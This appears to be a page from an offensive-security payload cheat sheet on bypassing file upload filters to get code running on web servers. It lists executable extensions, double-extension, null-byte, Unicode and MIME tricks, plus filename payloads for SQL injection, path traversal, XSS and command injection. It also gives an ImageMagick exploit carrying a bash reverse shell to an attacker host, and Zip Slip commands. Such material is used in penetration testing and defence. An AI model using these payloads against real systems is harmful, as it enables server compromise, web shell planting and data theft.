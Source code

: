 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
    * [Defaults extensions](#defaults-extension)
    * [Other extensions](#other-extensions)
    * [Upload tricks](#upload-tricks)
    * [Filename vulnerabilities](#filename-vulnerabilities)
    * [Picture upload with LFI](#picture-upload-with-lfi)
    * [Configuration Files](#configuration-files)
    * [CVE - Image Tragik](#cve---image-tragik)
    * [CVE - FFMpeg](#cve---ffmpeg)
    * [ZIP Archive](#zip-archive)
* [References](#references)


## Tools
- [Fuxploider](https://github.com/almandin/fuxploider)
- [Burp > Upload Scanner](https://portswigger.net/bappstore/b2244cbb6953442cb3c82fa0a0d908fa)

## Exploits

### Defaults extensions

* PHP Server
    ```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```
* ASP Server : `.asp, .aspx, .cer and .asa (IIS <= 7.5), shell.aspx;1.jpg (IIS < 7.0)`
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

### Upload tricks

- Use double extensions : `.jpg.php`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Mix uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * .php%00.gif
    * .php\x00.gif
    * .php%00.png
    * .php\x00.png
    * .php%00.jpg
    * .php\x00.jpg
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace characters: `file.php%20`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

### Filename vulnerabilities

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

### Picture upload with LFI

Valid pictures hosting PHP code. Upload the picture and use a local file inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.

### Configuration Files

If you are trying to upload files to a PHP server, take a look at the .htaccess trick to execute code.
If you are  trying to upload files to an ASP server, take a look at the .config trick to execute code.

Configuration files examples
- .htaccess
- web.config
- httpd.conf
- \_\_init\_\_.py


### CVE - Image Tragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

```powershell
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

More payload in the folder `Picture Image Magik`

### CVE - FFMpeg

FFmpeg HLS vulnerability


### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

* Zip Slip: directory traversal to write a file somewhere else
    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```


## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [File Upload - Mahmoud M. Awali / @0xAwali](https://docs.google.com/presentation/d/1-YwXl9rhzSvvqVvE_bMZo2ab-0O5wRNTnzoihB9x6jI/edit#slide=id.ga2ef157b83_1_0)